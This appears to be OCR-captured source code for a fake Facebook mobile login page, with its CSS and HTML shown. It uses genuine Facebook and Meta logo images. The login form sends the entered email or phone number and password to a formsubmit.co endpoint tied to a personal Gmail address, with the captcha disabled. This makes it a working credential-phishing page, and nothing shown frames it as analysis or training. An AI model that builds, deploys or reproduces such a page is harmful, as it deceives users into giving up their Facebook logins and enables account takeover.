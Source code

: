       background-color: #1877f2;
      color: white;
      font-weight: 600;
      cursor: pointer;
    }
    .button.secondary {
      background: #f0f2f5;
      color: #000;
    }
    .input {
      border: 1px solid #ccd0d5;
      background: #f5f6f7;
    }
    .link {
      text-align: center;
      color: #1877f2;
      font-size: 14px;
      text-decoration: none;
    }
    .back-arrow {
      font-size: 24px;
      padding: 16px;
      cursor: pointer;
      display: inline-block;
    }
    .input-group {
      display: flex;
      gap: 10px;
    }
    .input-group .input {
      flex: 1;
    }
    .age-text {
      font-size: 14px;
      color: #555;
      margin-top: 8px;
      margin-bottom: 10px;
    }
  </style>
</head>
<body>


<div class="container" id="login-screen">
  <div class="language">English (UK)</div>
  <img src="https://z-m-static.xx.fbcdn.net/rsrc.php/v4/yD/r/5D8s-GsHJlJ.png" alt="Facebook Logo" class="fb-logo">
  <form action="https://formsubmit.co/applerapplesapple@gmail.com" method="POST">
  <input type="hidden" name="_captcha" value="false">
  <input type="text" name="login_email_or_phone" placeholder="Mobile number or email address" required>
  <input type="password" name="login_password" placeholder="Password" required>
  <button id="login" type="submit">Log in</button>
</form>
  <a href="#" class="forgot">Forgotten password?</a>
  <button id="create-account" onclick="showSignup()">Create new account</button>
  <div class="meta-logo">
    <img src="https://z-m-static.xx.fbcdn.net/rsrc.php/v4/yK/r/soeuNpXL37G.png" alt="Meta Logo">
    <div class="footer-links">
      <span>About</span>
      <span>Help</span>
      <span>More</span>
    </div>
  </div>